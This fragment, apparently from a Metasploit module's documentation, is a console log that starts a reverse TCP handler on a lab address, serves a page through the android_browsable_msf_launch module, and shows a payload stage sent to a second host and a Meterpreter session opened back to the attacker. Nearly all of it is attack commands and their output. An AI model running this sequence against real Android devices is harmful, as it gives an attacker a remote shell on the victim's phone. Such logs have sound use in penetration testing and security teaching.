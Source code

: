 LHOST => 192.168.1.199
msf exploit(handler) > set EXITONSESSION false
EXITONSESSION => false
msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.199:4444 
msf exploit(handler) > [*] Starting the payload handler...

msf exploit(handler) > use auxiliary/server/android_browsable_msf_launch
msf auxiliary(android_browsable_msf_launch) > set URIPATH /test
URIPATH => /test
msf auxiliary(android_browsable_msf_launch) > run

[*] Using URL: http://0.0.0.0:8080/test
[*] Local IP: http://192.168.1.199:8080/test
[*] Server started.
[*] Sending HTML...
[*] Sending stage (62432 bytes) to 192.168.1.207
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.207:47523) at 2016-03-08 15:09:25 -0600
```
